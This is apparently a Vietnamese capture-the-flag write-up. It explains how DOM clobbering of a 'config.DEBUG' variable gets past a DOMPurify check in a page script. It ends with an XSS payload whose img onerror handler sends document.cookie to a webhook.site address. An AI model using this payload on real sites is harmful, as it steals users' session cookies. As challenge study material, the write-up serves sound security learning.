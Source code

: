 ![image](https://github.com/user-attachments/assets/123fcf8e-cb02-4a47-8f22-dae4a971b6bf)

```
document.addEventListener("DOMContentLoaded", () => {
	const urlParams = new URLSearchParams(window.location.search);
	const title = atob(urlParams.get("title"));
	const content = atob(urlParams.get("content"));
	document.getElementById("title").innerHTML =
		DOMPurify.sanitize(title);
	if (typeof config !== "undefined" && config.DEBUG) {
		document.getElementById("content").innerHTML = content;
	} else {
		document.getElementById("content").innerHTML =
			DOMPurify.sanitize(content);
	}
});
```
Đoạn code sanitize cả title và content nên ta ko thể xss được ngoại trù trường hợp biến config và config.DEBUG tồn tại. Tuy DOMPurify.sanitize có thể lọc xss nhưng nó lại ko lọc các tag bình thường như <p> , <a> nên ta có thể dùng kỹ thuật DOM clobbering

# payload
title:  
<p id="config"></p><p id="config" name="DEBUG">true</p>  
content:  
<img src=x onerror="fetch('//https://webhook.site/4c6a11ba-e622-45ce-965f-29c5ca311c76?' + document.cookie")>
